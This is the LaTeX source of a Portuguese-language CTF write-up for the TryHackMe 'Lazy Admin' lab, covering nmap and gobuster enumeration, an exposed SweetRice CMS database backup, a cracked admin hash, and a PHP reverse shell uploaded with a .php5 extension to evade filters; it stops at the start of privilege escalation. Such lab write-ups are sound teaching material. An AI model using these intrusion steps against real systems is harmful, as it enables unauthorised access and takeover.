\documentclass[12pt]{article}

% pacotes obrigatorios e formatacao
\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage[brazil]{babel}
\usepackage[margin=2cm]{geometry} % margem minima de 2cm exigida pela metodologia
\usepackage{times} % fonte times new roman
\usepackage{graphicx}
\usepackage{booktabs}
\usepackage{xcolor}
\usepackage{listings}
\usepackage{fancyhdr}
\usepackage{hyperref}
\usepackage{float}

\definecolor{citapurple}{HTML}{6A1B9A} % tom roxo escuro
% configuracao de links (hierarquia e cores)
\hypersetup{
    colorlinks=true,
    linkcolor=black,       % cor para sumario, figuras (\ref) e secoes
    urlcolor=blue,         % cor para links de internet (\url, \href)
    citecolor=citapurple,  % cor para citacoes bibliograficas (\cite) em roxo
    pdftitle={WriteUp - CTF},
}


% configuracao dos blocos de codigo (monoespacado com fundo destacado)
\definecolor{codebg}{gray}{0.95}
\lstset{
    backgroundcolor=\color{codebg},
    basicstyle=\ttfamily\small,
    breaklines=true,
    frame=single,
    frameround=tttt,
    framesep=5pt,
    rulecolor=\color{gray!30},
    showstringspaces=false,
    keywordstyle=\color{blue},
    captionpos=b,
    inputencoding=utf8,
    extendedchars=true
}

% configuracao de cabecalho e rodape
\pagestyle{fancy}
\fancyhf{}
\lhead{\small \textit{Lazy Admin - Try Hack Me}}
\rhead{\small \textit{Autor: Lurian Lima (luricl)}}
\rfoot{\thepage} % numeracao de paginas obrigatoria

% ----------------------------------------------------------------------------------------------------------
% \begin{lstlisting}[caption={Varredura de portas com Nmap}, label={lst:nmap}]
% nmap -sV <TARGET_IP>
% \end{lstlisting}

% O resultado da varredura pode ser visualizado na Figura \ref{fig:nmap}, evidenciando os servicos encontrados.

% \begin{figure}[h!]
%     \centering
%     % substitua 'example-image' pelo screenshot real
%     \includegraphics[width=0.45\textwidth]{example-image}
%     \caption{Servicos identificados no alvo via Nmap.}
%     \label{fig:nmap}
% \end{figure}
% -----------------------------------------------------------------------------------------------------------

\begin{document}

% 2.1. capa
\begin{titlepage}
    \centering
    \vspace*{2cm}
    
    {\Huge \textbf{Nome da Máquina: Lazy Admin}}\\[0.5cm]
    {\large \textbf{Plataforma:} Try Hack Me}\\[1.5cm]
    
    \vfill
    
    % espaco dedicado para logotipo (plataforma, unbreakable ou da máquina)
    \begin{figure}[H]
        \centering
        % substitua 'example-image' pelo arquivo da logo na pasta do projeto
        
\includegraphics[width=0.32\textwidth]{../template-writeup-unbreakable/unbreakableLogo_3.png} 
    \end{figure}
    
    \vfill
    
    \begin{table}[h!]
        \centering
        \small
        \renewcommand{\arraystretch}{1.3}
        \begin{tabular}{ll}
            \textbf{Máquina / Desafio:} & Lazy Admin \\
            \textbf{Dificuldade:}       & Fácil \\
            \textbf{Autor:}             & Lurian Lima (luricl) \\
            \textbf{Matrícula:}         & 222005395 \\
        \end{tabular}
    \end{table}
    
    \vspace*{1.5cm}
    {\large \today}
\end{titlepage}

\newpage

% 2.2. sumario
% indice gerado automaticamente com numeracao de paginas
\tableofcontents
\newpage

% 2.3. visao geral
% paragrafo descrevendo o vetor principal de ataque sem spoiler detalhado.
% deve responder: o que e o desafio, qual a superficie explorada e o caminho geral ate o objetivo.
\section{Visão Geral}

O desafio Lazy Admin apresenta um servidor Linux com serviços SSH, HTTP e
CUPS expostos. A enumeração do servidor web revela o CMS SweetRice na versão
1.5.1 e um backup do banco de dados contendo a hash da senha do usuário
administrativo. Após a autenticação no painel, a funcionalidade de upload
permite obter uma shell reversa como \textit{www-data}. A escalada de
privilégios é realizada explorando a permissão de executar um script Perl
como root e a chamada, feita por esse script, a um arquivo que pode ser
alterado pelo usuário.

% 2.4. reconhecimento
% resultados da enumeracao externa: portas abertas, servicos e versoes relevantes identificadas.
% incluir comandos executados em blocos de codigo e outputs truncados pertinentes.
% regra: nao incluir informacoes obtidas apos o foothold inicial.
\section{Reconhecimento}

O primeiro passo é rodar o nmap no ip alvo:

\begin{lstlisting}[caption={Varredura de portas com Nmap}, label={lst:nmap}]
$ nmap -sV <TARGET_IP>
...
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.54 ((Debian))
631/tcp open  ipp     CUPS 2.4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
...
\end{lstlisting}

Podemos seguir explorando o servidor Apache encontrado com a enumeração dos diretórios desse servidor:

\begin{lstlisting}[caption={Varredura de portas com Nmap}, label={lst:nmap}]
$ gobuster dir -u http://<TARGET_IP>/ -w /snap/seclists/current/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x php,html,txt -t 50 -o gobuster_dirs.txt
\end{lstlisting}

Com isso, encontramos uma nova rota partindo de \textit{$http://<TARGET\_IP>/content/$}.

% 2.5. exploracao
% descricao tecnica detalhada do vetor de entrada e raciocinio que levou a vulnerabilidade.
% incluir scripts, exploits ou payloads utilizados (comentados) e justificativa dos passos.
% prints obrigatorios evidenciando o acesso inicial obtido (com placeholder para dados sensiveis).
\section{Exploração}

Acessando a rota \textit{$http://<TARGET\_IP>/content/$}, encontramos a seguinte página.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.65\textwidth]{imgs/tela_content_lazyadmin.png}
    \caption{Tela encontrada na rota \textit{$http://<TARGET\_IP>/content/$}.}
    \label{fig:tela_content_lazy_admin}
\end{figure}

Se trata de uma página de erro de um CMS, o SweetRice. Logo, podemos olhar no github a estrutura dele:

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.65\textwidth]{imgs/sweetRice_structure_lazyadmin.png}
    \caption{Arquitetura do SweetRice CMS.}
    \label{fig:arch_sweetRice}
\end{figure}

Percebemos que há um arquivo changelog que permite identificar a versão do CMS. Logo, olhando em \textit{$http://<TARGET\_IP>/content/changelog.txt$}, descobrimos que a versão do CMS é a 1.5.1. Portanto, podemos procurar por um exploit 

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.65\textwidth]{imgs/exploit_db_lazyadmin.png}
    \caption{Vulnerabilidades do SweetRice CMS.}
    \label{fig:exploitdb_sweetRice}
\end{figure}

De fato, conseguimos baixar o backup do db ao acessar \textit{$http://<TARGET\_IP>/inc/mysql_backup$}. Dentro do arquivo de backup, é possível encontrar uma hash de uma senha de um usuário "manager".

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.65\textwidth]{imgs/backup_lazy_admin.png}
    \caption{hash encontrada.}
    \label{fig:hash_encontrada}
\end{figure}

Assim, aparentemente a hash é MD5, por conter apenas caracteres alfanuméricos. Quebramos com o hashcat e descobrimos que a senha é \textit{Password123}.

Também podemos usar o ffuf para procurar por subdiretórios:

\begin{lstlisting}[caption={Varredura de portas com Nmap}, label={lst:nmap}]
$ ffuf -u http://<TARGET_IP>/content/FUZZ -w /usr/share/dirb/wordlists/common.txt
...
.htpasswd               [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 2ms]
_themes                 [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 0ms]
                        [Status: 200, Size: 2195, Words: 109, Lines: 36, Duration: 13ms]
as                      [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 1ms]
attachment              [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 0ms]
.hta                    [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 95ms]
inc                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 0ms]
images                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 3ms]
.htaccess               [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 186ms]
index.php               [Status: 200, Size: 2195, Words: 109, Lines: 36, Duration: 11ms]
js                      [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 0ms]
\end{lstlisting}

Logo, encontramos uma tela de login ao acessar \textit{$http://<TARGET\_IP>/content/as$}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.65\textwidth]{imgs/tela_login_lazy_admin.png}
    \caption{tela de login do SweetRice CMS.}
    \label{fig:tela_login_sweetRice}
\end{figure}

Inserindo as credenciais encontradas anteriormente, conseguimos entrar no painel de admin e encontrar um local para fazer o upload de arquivos.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.65\textwidth]{imgs/upload_files_lazyadmin.png}
    \caption{local para upload de arquivos no SweetRice CMS.}
    \label{fig:upload_files}
\end{figure}

Assim, conseguimos subir uma shell reversa via php, usando o site \footnote{\url{https://www.revshells.com/}} e trocando a terminação do arquivo para .php5 para evitar filtros. A flag do usuário é encontrada em \textit{/home/itguy/user.txt}.

% 2.7. escalada de privilegios
% descrever o vetor de privesc vertical, o processo de enumeracao local que o revelou
% (ex: linpeas, sudo -l, capabilities, binarios suid) e a exploracao realizada.
% incluir o comando final e captura que comprove o acesso root/system e as flags com placeholder.
\section{Escalada de Privilégios}

Com sudo -l, encontramos:

